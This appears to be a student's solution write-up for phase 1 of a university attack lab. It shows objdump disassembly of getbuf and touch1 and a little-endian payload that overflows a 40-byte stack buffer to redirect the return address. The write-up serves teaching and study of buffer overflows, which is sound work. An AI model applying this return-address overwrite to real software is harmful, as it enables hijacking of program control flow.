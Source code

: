 Use `objdump -d` to get this dissembled version.

The idea is to position a byte representation of the starting address for `touch1` so that the retinstruction at the end of the code for getbuf will transfer control to `touch1`.

Be careful about byte ordering.

You might want to use GDB to step the program through the last few instructions of `getbuf` to make sure it is doing the right thing.

The placement of `buf` within the stack frame for `getbuf` depends on the value of compile-time constant BUFFER_SIZE, as well the allocation strategy used by GCC. You will need to examine the disassembled code to determine its position.

## Solution

1. Use `objdump -d ctarget > ctarget.s` to get the code
2. Use search to find the `getbuf` function

```nasm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	call   401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	ret    
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

1. Find the `touch1` function

```nasm
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	call   400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	call   401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	call   400e40 <exit@plt>
```

1. we can see the address is `00000000004017c0` , and the stack places created by the `getbuf` function is `0x28`bytes , `0x28` is 40, so the address of `touch1` should be put at [40-48.](http://40-48.So) So the answer should be (Note that little-endian format is used, so the address should be written in reverse order):

```nasm
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00 
```
